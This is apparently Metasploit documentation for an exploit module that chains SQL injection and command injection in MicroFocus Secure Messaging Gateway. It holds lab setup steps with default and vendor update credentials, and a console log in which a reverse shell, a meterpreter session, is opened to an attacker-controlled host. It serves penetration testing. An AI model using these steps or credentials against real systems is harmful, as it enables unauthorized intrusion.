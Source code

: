 ## Vulnerable Application
This module exploits a SQL injection and command injection vulnerability in MicroFocus Secure Messaging
Gateway. An unauthenticated user can execute a terminal command under the context of the web user.

One of the user supplied parameters of API endpoint is used by the application without input validation
and/or parameter binding, which leads to SQL injection vulnerability. Successfully exploiting this
vulnerability gives a ability to add new user onto system. manage_domains_dkim_keygen_request.php
endpoint is responsible for executing an operation system command. It's not possible to access this
endpoint without having a valid session.

Combining these vulnerabilities gives the opportunity execute operation system commands under the
context of the web user.
        
## Vulnerable Application Installation Steps

Complete the following trial submission form. You will be able to [download the product as a OVA or ISO file](https://www.microfocus.com/products/secure-gateway/trial/).
Installation instructions can be [found here](https://www.microfocus.com/documentation/secure-messaging-gateway/GWAVA%207.0/secure-gateway.pdf).

Please note that newer trial appliances by default are no longer vulnerable to the attacks used by
this module, but for testing purposes there is a way to make it vulnerable again.

First, go ahead and install the ISO. The appliance is based on Debian (for example, version 7 is
running a modified version of Ubuntu 16.04), so installation should be very similar to that.

After you log into the system as "gwava:gwava" (which is the default credential), you should see
this on your screen:

```
####################################

Please run the following command:

sudo /opt/gwavapreinstall.sh

####################################
```

The gwavapreinstall.sh script is what you need to modify. To do this, open it with your favorite text
editor with sudo like this:

```
$ sudo nano -w /opt/gwavapreinstall.sh
```

The bash script uses svn to download the latest software from the official site, but we can go back to
a specific commit to test the vulnerability again. Go ahead and find this line in the file:

```
sudo svn co --username gwavaupdate --password gwavam8 --non-interactive https://gwava7updates.gwava.com/update/gwava7/release $GWAVA_DIR
```

And modify to (the difference is the ```release@444```):

```
sudo svn co --username gwavaupdate --password gwavam8 --non-interactive https://gwava7updates.gwava.com/update/gwava7/release@444 $GWAVA_DIR
```

Make sure you save it, and then now run the script:

```
$ sudo /opt/gwavapreinstall.sh
```

After running the script, make sure to browse to https://[IP] to complete the installation. And then
after that, you are ready to test the module.

Note that the module may not work at the very first try, but the second time should work.

## Verification Steps

A successful check of the exploit will look like this:

1. Start `msfconsole`
2. `use exploit/linux/http/microfocus_secure_messaging_gateway `
3. Set `RHOST`
4. Set `LHOST`
5. Run `check`
6. **Verify** that you are seeing `The target is vulnerable`
7. Run `exploit`
8. **Verify** that you are seeing `Creating an user with appropriate privileges` in console.
9. **Verify** that you are seeing `User successfully created. Username : rmcynlbredxqh` in console.
10. **Verify** that you are seeing `Authenticating with created user` in console.
11. **Verify** that you are seeing `Successfully authenticated` in console.
12. **Verify** that you are seeing `Creating a domain with a malformed DKIM data` in console.
13. **Verify** that you are seeing `Payload is successfully implanted` in console.
14. **Verify** that you are seeing `Triggering an implanted payload` in console.
15. **Verify** that you are getting meterpreter session.

## Scenarios

```
msf5 > use exploit/linux/http/microfocus_secure_messaging_gateway 
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > set RHOSTS 12.0.0.25
RHOSTS => 12.0.0.25
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Creating an user with appropriate privileges
[+] User successfully created. Username : rmcynlbredxqh
[*] Authenticating with created user
[+] Successfully authenticated
[*] Creating a domain record with a malformed DKIM data
[+] Payload is successfully implanted
[*] Triggering an implanted payload
[*] Sending stage (37775 bytes) to 12.0.0.25
[*] Meterpreter session 10 opened (12.0.0.1:4444 -> 12.0.0.25:44332) at 2018-06-25 20:26:54 +0100
[*] Cleaning up...

meterpreter > pwd
/opt/gwava/gwavaman/http/admin/contents/ou
meterpreter >
```